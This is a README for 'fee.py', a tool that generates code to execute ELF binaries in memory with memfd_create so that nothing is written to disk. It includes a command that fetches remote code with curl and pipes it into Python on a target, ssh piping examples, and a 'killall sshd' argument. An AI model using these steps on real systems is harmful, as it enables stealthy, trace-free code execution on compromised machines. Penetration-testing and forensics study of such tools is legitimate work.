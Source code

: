 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script uses libc to resolve the right syscall number for `memfd_create` on the target in order to be as platform-agnostic as possible. If this fails (old or unsupported libc), you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL] path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: resolve symbol via libc)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default: path to
                        file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```